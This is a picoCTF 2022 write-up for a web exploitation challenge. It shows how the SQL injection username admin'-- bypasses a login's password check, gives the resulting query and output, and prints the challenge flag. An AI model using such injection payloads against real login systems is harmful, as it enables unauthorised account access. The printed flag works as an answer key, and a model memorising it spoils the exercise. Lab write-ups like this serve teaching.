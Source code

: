 # Overview
`Medium` `Web Exploitation` `picoCTF 2022` `sql`

# Description
Can you login to this website?
Try to login [here](http://saturn.picoctf.net:52209/).

# Hints
***admin*** is the user you want to login as.

# Solution
We know from the hint that ***admin*** is the user we want to login as. Therefore, we need to look
at how the query works when we enter a password. Lets try `password` for the password:

```js
username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'

Login failed.
```

So the query is `SELECT * FROM users WHERE name=' ' AND password=' '`

It simply takes the username and password and queries that from the stored database. We can bypass the password check by
an SQL injection. We can enter `admin'--` as the username and then inject the password with `SELECT username, password FROM users WHERE username='admin'--`

Doing this bypasses the password and we get this:

```js
username: admin'--
password: SELECT username, password FROM users WHERE username='admin'--
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='SELECT username, password FROM users WHERE username='admin'--'

Logged in! But can you see the flag, it is in plainsight.
```

From here, we can inspect the page using `ctrl` + `shift` + `i` and see the flag under the "Elements" tab in a hidden paragraph

<kbd>![Screenshot](https://github.com/user-attachments/assets/eae76394-4a98-44d1-88a9-9ba83737994a)</kbd>

# Flag
`picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}`
